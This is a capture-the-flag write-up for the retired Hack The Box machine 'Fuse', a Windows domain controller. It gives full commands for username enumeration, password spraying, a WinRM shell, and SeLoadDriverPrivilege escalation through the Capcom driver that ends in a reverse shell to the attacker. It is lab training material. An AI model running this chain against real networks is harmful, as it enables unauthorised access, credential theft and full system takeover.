

# Fuse

This is the write-up for the box Fuse that got retired at the 31st October 2020.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.193    fuse.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/fuse.nmap 10.10.10.193
```

```
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-10-30 14:17:18Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

According to the ports, this is an **Active Directory** domain controller and the hostname _fabricorp.local_ should be put into the _/etc/hosts_ file.

## Checking HTTP (Port 80)

When trying to browse to the web page, it wants to forward to the domain name _fuse.fabricorp.local/papercut/logs/html/index.htm_ but can't reach it.
It has to be put into the _/etc/hosts_ file and access is granted.

The web page shows **Print Logs** from the print management software [PaperCut](https://www.papercut.com/):



The _View_ button shows logs for printed documents and there are usernames and client names that may be useful:

| User | Client |
| ---- | ------ |
| pmerton | JUMP01 |
| tlavel | LONWK015 |
| sthompson | LONWK019 |
| bhult | LAPTOP07 |
| administrator | FUSE |

The document name of the logs from _29 May 2020_ is called _"New Starter - bnielson - Notepad"_ and _bnielson_ could also be a potential username.

Lets put all of those usernames into a file and use [kerbrute](https://github.com/ropnop/kerbrute) to check if they are valid:
```
./kerbrute userenum --dc 10.10.10.193 -d fabricorp.local users.list
```

All of the usernames are valid, so a custom wordlist could be useful to test password against these users.

## Credential Gathering

The most used passwords in companies are often the company name and seasons:
```
Fabricorp
Summer
Winter
```

Using **Hashcat** to apply a rule to the wordlist:
```
hashcat --force wordlist.list -r /usr/share/hashcat/rules/best64.rule --stdout > wordlist_rule.list
```

Removing all words that are shorter than 8 characters:
```
sed -e '/^.\{,7\}$/d' wordlist_rule.list > wordlist_rule_short.list
```

Testing the created list of passwords against the usernames with **CrackMapExec**:
```
crackmapexec smb 10.10.10.193 -u users.list -p wordlist_rule_short.list
```
```
SMB    10.10.10.193    445    FUSE     [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

The user _tlavel_ seems to have the password _Fabricorp01_ and the password has to be changed:
```
smbpasswd -U tlavel -r 10.10.10.193

Old SMB password: Fabricorp01
New SMB password: NewPass123
Retype new SMB password: NewPass123
Password changed for user tlavel on 10.10.10.193.
```

Connecting to RPC client with the new password:
```
rpcclient -U tlavel 10.10.10.193
```

> NOTE: After setting the new password, the connection to RPC has to be done fast as the password is reset every minute

Gathering more users:
```
rpcclient $> enumdomusers

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```

As there are two service accounts for printing and the web server is printer management, there may be information in the printer objects:
```
rpcclient $> enumprinters

name:[\\10.10.10.193\HP-MFT01]
description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
```

It contains another password that can be tested against all users:
```
crackmapexec smb 10.10.10.193 -u users.list -p '$fab@s3Rv1ce$1'

SMB    10.10.10.193    445    FUSE      [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1
```

The password works for the user _svc-print_. Checking if **WinRM** connection is possible:
```
crackmapexec winrm 10.10.10.193 -u svc-print  -p '$fab@s3Rv1ce$1'

WINRM    10.10.10.193    5985   FUSE      [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
```

Using **Evil-WinRM** to get a shell connection:
```
evil-winrm.rb -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
```

## Privilege Escalation

When checking the users permissions, it shows that the _SeLoadDriverPrivilege_ privilege is set:
```
whoami /all
```
```
Privilege Name                Description                    State
============================= ============================== =======
SeLoadDriverPrivilege         Load and unload device drivers Enabled
```

With this permission, it is possible to load drivers into the kernel and escalate privileges that way.
The most common driver to load is the **Capcom driver** explained by [FuzzySecurity](https://www.fuzzysecurity.com/tutorials/28.html) that can should be downloaded from their [GitHub repository](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys).

This [article from Tarlogic](https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) explains the steps to exploit _SeLoadDriverPrivilege_.
They provide a Proof of Concept driver on their [GitHub repository](https://github.com/TarlogicSecurity/EoPLoadDriver/) that we will use.

Compiling the C++ file _eoploaddriver.cpp_ in **Visual Studio**:
```
New Project --> Visual C++ --> Console App --> Paste code into cpp file --> Rebuild Solution
```

Another necessary tool is the utility from [this repository](https://github.com/tandasat/ExploitCapcom) to exploit _Capcom.sys_.

Compiling the project _ExploitCapcom.sln_ in **Visual Studio**:
```
File --> Open --> Project/Solution --> Rebuild Solution
```

Modifying the code in _ExploitCapcom.cpp_ to not execute `cmd.exe` but our own binary:
```
(...)
Line 410: TCHAR CommandLine[] = TEXT("C:\\windows\\temp\\shell.exe");
(...)
```

The project has to be compiled again to have the modified version.

This [Simple_Rev_Shell from BankSecurity](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc) will be used as the executable to gain a reverse shell connection.

Compiling the reverse shell binary on a Windows box:
```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\csc.exe /t:exe /out:c:\windows\temp\shell.exe "c:\HP Universal Print Driver\shell.cs"
```

This results in four files that I will upload to the box in _C:\Windows\Temp_.
- Capcom.sys
- EoPLoadDriver.exe
- ExploitCapcom.exe
- shell.exe

Executing _EoPLoadDriver.exe_ to create the _Capcom.sys_ driver in the registry:
```
.\EoPLoadDriver.exe System\CurrentControlSet\NewDriver c:\windows\temp\Capcom.sys
```
```
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\NewDriver
NTSTATUS: 00000000, WinError: 0
```

Executing _ExploitCapcom.exe_ to exploit the new driver and execute _shell.exe_:
```
.\ExploitCapcom.exe
```

After executing it, the listener on my IP and port 9001 starts a reverse shell as _SYSTEM_!
